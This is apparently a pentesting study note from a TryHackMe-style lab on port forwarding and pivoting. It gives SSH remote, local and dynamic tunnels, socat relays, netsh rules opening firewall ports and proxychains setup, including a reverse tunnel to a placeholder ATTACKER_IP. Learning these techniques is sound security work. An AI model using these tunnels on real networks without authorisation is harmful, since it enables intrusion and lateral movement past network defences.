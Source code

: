 # Port forwarding

## SSH Tunnelling

<pre class="language-bash"><code class="lang-bash"><strong># Creating tunneluser
</strong><strong>useradd tunneluser -m -d /home/tunneluser -s /bin/true
</strong>passwd tunneluser
</code></pre>

## SSH Remote Port Forwarding

<figure><img src="../../.gitbook/assets/Capture d&#x27;écran 2024-05-06 023853.png" alt=""><figcaption></figcaption></figure>

PC 1

```
ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N
```

## SSH Local Port Forwarding



<figure><img src="../../.gitbook/assets/Capture d&#x27;écran 2024-05-06 024225.png" alt=""><figcaption></figcaption></figure>

PC1

```
# Change fw settinng for listening on new port
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80

ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N
```

## Port Forwarding With socat

### Remote

<figure><img src="../../.gitbook/assets/Capture d&#x27;écran 2024-05-06 024802.png" alt=""><figcaption></figcaption></figure>

```
# Remote 
socat TCP4-LISTEN:3389,fork TCP4:3.3.3.3:3389

```

### local

<figure><img src="../../.gitbook/assets/Capture d&#x27;écran 2024-05-06 025035.png" alt=""><figcaption></figcaption></figure>

```
netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389
socat TCP4-LISTEN:80,fork TCP4:1.1.1.1:80

```

## Dynamic Port Forwarding and SOCKS

PC1&#x20;

```
ssh tunneluser@1.1.1.1 -R 9050 -N
```

Attacker

```
# Edit /etc/proxychains.conf
socks4  127.0.0.1 9050

# access to target service 
proxychains <command> <arg>
```

## Use both local and remote port forwarding

```
ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N
```
